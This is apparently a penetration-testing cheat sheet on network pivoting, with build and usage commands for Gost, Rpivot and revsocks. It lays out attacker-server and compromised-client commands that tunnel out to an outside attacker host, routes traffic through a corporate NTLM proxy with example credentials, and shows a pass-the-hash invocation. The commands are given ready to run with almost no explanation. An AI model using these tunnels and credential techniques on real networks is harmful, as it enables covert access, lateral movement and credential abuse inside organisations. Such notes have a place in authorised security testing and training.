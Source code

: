 ## Gost

> Wiki English : https://docs.ginuerzh.xyz/gost/en/

```powershell
git clone https://github.com/ginuerzh/gost
cd gost/cmd/gost
go build

# Socks5 Proxy
Server side: gost -L=socks5://:1080
Client side: gost -L=:8080 -F=socks5://server_ip:1080?notls=true

# Local Port Forward
gost -L=tcp://:2222/192.168.1.1:22 [-F=..]
```

## Rpivot

Server (Attacker box)

```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)

```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

Passing the hash

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```

## revsocks

```powershell
# Listen on the server and create a SOCKS 5 proxy on port 1080
user@VPS$ ./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234

# Connect client to the server
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234
user@PC$ ./revsocks -connect 10.10.10.10:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```
